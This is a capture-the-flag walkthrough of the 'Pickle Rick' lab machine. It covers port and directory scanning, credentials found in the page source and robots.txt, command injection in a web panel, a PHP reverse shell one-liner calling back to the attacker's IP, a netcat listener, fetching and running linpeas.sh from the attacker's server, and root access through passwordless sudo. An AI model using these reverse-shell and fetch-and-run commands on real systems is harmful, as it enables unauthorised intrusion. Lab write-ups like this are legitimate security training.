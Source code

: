 # Pickle Rick

IP - 10.10.191.16

## Scanning and Enumeration

nmap scan:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d3:e5:84:36:c0:98:a2:63:04:01:cc:75:a9:d1:94:2a (RSA)
|   256 b9:37:a1:31:ab:af:e7:a3:1d:bf:32:39:67:00:b6:6b (ECDSA)
|_  256 b9:1d:36:7c:9f:a9:19:a6:be:34:f5:7c:97:0e:18:43 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|http-title: Rick is sup4r cool
| http-methods:
|  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

dirsearch:
```
[21:38:43] 403 -   277B - /.php

[21:38:59] 200 -    2KB - /assets/

[21:38:59] 301 -   313B - /assets  ->  http://10.10.191.16/assets/

[21:39:13] 200 -    1KB - /index.html

[21:39:16] 200 -   882B - /login.php

[21:39:26] 200 -    17B - /robots.txt
```
- Viewed HTML source code (ctrl + U) on picklerick.thm website and found Username: R1ckRul3s.
- Found password in 10.10.191.16/robots.txt - Wubbalubbadubdub
- Navigate to /login.php and used username R1ckRul3s and password Wubbalubbadubdub to log in.

## Exploit
Command Panel is vulnerable and allowing to use commands to get information. I used "ls -a" to list all files including hidden files and found Sup3rS3cretPickl3Ingred.txt. I was able to get the first ingredient by running - ``` grep . -R ```

## Reverse Shell
- set Terminal to listen - ``` nc -nvlp 4444 ```
- Executed PHP reverse shell and gained access: 
```
php -r '$sock=fsockopen("10.6.41.41",4444);exec("/bin/sh -i <&3 >&3 2>&3");’
```
Cheatsheet - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Navigate to /home > ``` grep . -R ``` to get second ingredient.

## Post-Exploit (LinPEAS)
- Opened new tab in the terminal and ran - ``` python3 -m http.server 8000 ```
- ``` wget http://10.6.41.41:8000/linpeas.sh -O /tmp/linpeas.sh ```
- ``` chmod +x /tmp/linpeas.sh ```
- ``` /tmp/linpeas.sh ```
- Results from LinePEAS - User www-data may run the following commands on ip-10-10-191-16:
(ALL) NOPASSWD: ALL
> This means that you can run any command as scriptmanager, and optionally set your group to scriptmanager when doing so
Ran ``` sudo bash > cd root > cat 3rd.txt ``` > got last ingredient




